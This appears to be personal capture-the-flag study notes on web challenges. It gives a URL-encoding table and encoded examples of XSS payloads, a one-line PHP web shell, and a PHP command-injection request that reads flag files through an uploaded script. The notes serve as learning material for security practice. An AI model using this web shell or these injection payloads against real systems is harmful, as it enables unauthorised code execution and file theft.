 ```yaml
---
title: "My Web notes [Notes]"
toc: true
toc_label: "cat contents.md"
toc_icon: "terminal"
---
```

Small things you need to know for the web category in CTF ~~I guess~~.

# URL Encoded and Decoded

| Character | Encoded | Character | Encoded | Character | Encoded |
|-----------|---------|-----------|---------|-----------|---------|
| `space`   | %20     | `0`       | %30     | `@`       | %40     |
| `!`       | %21     | `1`       | %31     | `A-Z`     | %41-%5A |
| `"`       | %22     | `2`       | %32     | `[`       | %5B     |
| `#`       | %23     | `3`       | %33     | `\`       | %5C     |
| `$`       | %24     | `4`       | %34     | `]`       | %5D     |
| `%`       | %25     | `5`       | %35     | `^`       | %5E     |
| `&`       | %26     | `6`       | %36     | `_`       | %5F     |
| `'`       | %27     | `7`       | %37     | `backtick`| %60     |
| `(`       | %28     | `8`       | %38     | `a-z`     | %61-%7A |
| `)`       | %29     | `9`       | %39     | `{`       | %7B     |
| `*`       | %2A     | `:`       | %3A     | `pipe`    | %7C     |
| `+`       | %2B     | `;`       | %3B     | `}`       | %7D     |
| `,`       | %2C     | `<`       | %3C     | `~`       | %7E     |
| `-`       | %2D     | `=`       | %3D     |
| `.`       | %2E     | `>`       | %3E     |
| `/`       | %2F     | `?`       | %3F     |

Online Tool:

1. [URL-Encoder](https://www.urlencoder.org/)
2. [W3Schools-URL-Encoding-Map](https://www.w3schools.com/tags/ref_urlencode.ASP)

## Examples

```html
<!-- Example 1: XSS Common Payloads -->
1. <script>alert('XSS');</script>
2. javascript:alert('XSS');

<!-- Encoded results -->
1. %3Cscript%3Ealert%28%27XSS%27%29%3B%3C%2Fscript%3E
2. javascript%3Aalert%28%27XSS%27%29%3B
```

```php
// Example 2: PHP Common Payloads
<?php system($_GET['cmd']); ?>

// Encoded results
%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E

// Example 3: PHP Command Injection Payloads
GET /uploads/payload.PHP?cmd=
foreach (glob("../flag*") as $filename) 
{echo "$filename => ";var_dump(file_get_contents($filename));};

// Encoded results
GET /uploads/payload.PHP?cmd=
foreach%20(glob(%22..%2Fflag%2A%22)%20as%20%24filename)%20
%7Becho%20%22%24filename%20%3D%3E%20%22%3Bvar_dump(file_get_contents(%24filename))%3B%7D%3B
```

Updating...
